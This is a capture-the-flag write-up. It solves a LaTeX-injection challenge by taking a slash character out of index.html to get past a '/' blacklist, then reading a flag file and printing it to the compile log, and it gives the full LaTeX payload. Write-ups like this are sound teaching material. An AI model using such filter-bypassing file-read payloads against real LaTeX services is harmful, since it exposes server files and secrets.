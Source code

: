 1. Looking at the source HTML indicates that we need to read the flag from a file found in `/sweatin/to/the/oldies/flag.txt`.
2. LaTeX is turing-complete and has the ability to read files, however, certain strings have been blacklisted. Most notably, `/` has been blacklisted making it challenging to create the path to read the file.
3. The `/` character however can be isolated from `index.html` using the `\StrMid` function from the `xstring` package. By getting the `/` character from `index.html`, we can use it to build our path and bypass the blacklisted characters filter.
4. Using this we can write the following LaTeX code that will build the path and read the flag:

```LaTeX
\documentclass{minimal}

% The xstring package allows us to use \StrMid
\usepackage{xstring}

% Define sections of the path to the flag
\def\a{sweatin}
\def\b{to}
\def\c{the}
\def\d{oldies}
\def\e{flag.txt}

% Read index.html and isolate the forward-s lash character into \s
\newread\file
\immediate\openin\file=index.html
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\StrMid{\fileline}{43}{43}[\s]
\immediate\closein\file

% Build the path the the flag and read it
\immediate\openin\file=\s\a\s\b\s\c\s\d\s\e
\loop\unless\ifeof\file
    \read\file to\fileline
    \message{\fileline}
\repeat
\closein\file

\begin{document}
\end{document}
```

The flag can be found in the returned LOG data.

## Flag
`magpie{r1ch4rd_l0v35_t0_5w34t}`

***
